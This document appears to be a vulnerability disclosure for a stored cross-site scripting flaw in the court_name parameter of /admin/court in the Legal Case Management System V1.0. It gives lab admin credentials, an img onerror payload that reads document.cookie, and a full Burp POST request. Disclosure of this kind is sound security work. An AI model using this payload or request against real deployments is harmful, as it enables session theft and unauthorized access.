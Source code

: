 ## Legal Case Management System

## XSS on `/admin/court`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/court
```

The parameter `court_name` is being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```
<img src=1 onerror="alert(document.cookie)">
```

Burp Request:

```
POST /admin/court HTTP/1.1
Host: 192.168.150.131
Content-Length: 416
Accept: */*
DNT: 1
X-CSRF-TOKEN: ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3pvBd5baB03a59AB
Origin: http://192.168.150.131
Referer: http://192.168.150.131/admin/court
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6InRQUU5BQ3oxK1BZT0M0RzM1VlwvV0tnPT0iLCJ2YWx1ZSI6IkQ2Q3BOMmduXC9xZDU3MkRPSlJFN2VXYkpmSE5PXC9oMmNiODN6WTZEU3lURkoxZ0tIUTdmeGhXcEJxXC9oVEdneXoiLCJtYWMiOiJhNjI3YmI0ZjQzYzUwMTJmOWNhZDgzMzhjMGMxN2NmYzdiOWRmN2QyMWZiYzE3YTgxZjY5MmIyOWM1NzE4YjdhIn0%3D; test_session=eyJpdiI6ImRIdXc0SkpYNG40ekdYbFArd1FDYWc9PSIsInZhbHVlIjoiaWl1anlhakNuTllSaVBxdmJWN3JYY1hla05cL1p3XC9acmtxN0hDTDdld0N5TXdmTDZ2ZkJxOERLY2dmNGNoZ0NOIiwibWFjIjoiYzE0ZWNiOWVlNzYyNmZmNDJiMjQyNGY2YjIxZWIxYzg3OWY3MmY3NmI4ZmMwZWNhNTkyMzRkNjA1ZTU3ZmZmNSJ9
Connection: close

------WebKitFormBoundary3pvBd5baB03a59AB
Content-Disposition: form-data; name="_token"

ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
------WebKitFormBoundary3pvBd5baB03a59AB
Content-Disposition: form-data; name="court_type"

2
------WebKitFormBoundary3pvBd5baB03a59AB
Content-Disposition: form-data; name="court_name"

<img src=1 onerror="alert(document.cookie)">
------WebKitFormBoundary3pvBd5baB03a59AB--

```

### Screenshot

![image-20240509200133782](./screenshot/image-20240509200133782.png)
